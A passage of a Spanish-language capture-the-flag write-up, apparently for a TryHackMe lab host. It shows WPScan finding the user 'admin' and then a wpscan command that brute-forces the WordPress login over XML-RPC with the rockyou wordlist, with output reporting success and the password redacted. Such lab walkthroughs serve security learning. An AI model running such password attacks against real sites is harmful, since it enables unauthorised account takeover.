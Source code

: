 ```bash

[!] No WPScan API Token given, as a result vulnerability data has not been output.
[!] You can get a free API token with 25 daily requests by registering at https://wpscan.com/register

[+] Finished: Fri Jul  9 10:58:59 2021
[+] Requests Done: 538
[+] Cached Requests: 9
[+] Data Sent: 142.935 KB
[+] Data Received: 538.97 KB
[+] Memory used: 219.34 MB
[+] Elapsed time: 00:00:18
```

Nos devuelve información interesante, encontró un usuario: `admin`. 

Veamos si podemos hacerle fuerza bruta al login de wordpress con ese usuario...

```bash
╰─ lanfran@parrot ❯ wpscan --url http://internal.thm/blog -U admin -P /usr/share/wordlists/rockyou.txt                             ─╯
_______________________________________________________________
         __          _______   _____
         \ \        / /  __ \ / ____|
          \ \  /\  / /| |__) | (___   ___  __ _ _ __ ®
           \ \/  \/ / |  ___/ \___ \ / __|/ _` | '_ \
            \  /\  /  | |     ____) | (__| (_| | | | |
             \/  \/   |_|    |_____/ \___|\__,_|_| |_|

         WordPress Security Scanner by the WPScan Team
                         Version 3.8.17
       Sponsored by Automattic - https://automattic.com/
       @_WPScan_, @ethicalhack3r, @erwan_lr, @firefart
_______________________________________________________________
[...]

[+] Performing password attack on Xmlrpc against 1 user/s
[SUCCESS] - admin / [REDACTADO]                                                                                                           
Trying admin / bratz1 Time: 00:02:40 <                                                       > (3885 / 14348277)  0.02%  ETA: ??:??:??

[!] Valid Combinations Found:
 | Username: admin, Password: [REDACTADO]

[!] No WPScan API Token given, as a result vulnerability data has not been output.
[!] You can get a free API token with 25 daily requests by registering at https://wpscan.com/register

[+] Finished: Fri Jul  9 11:07:29 2021
[+] Requests Done: 4026
[+] Cached Requests: 37
[+] Data Sent: 2.036 MB
[+] Data Received: 2.31 MB
[+] Memory used: 237.906 MB
[+] Elapsed time: 00:02:51
```
¡Genial!
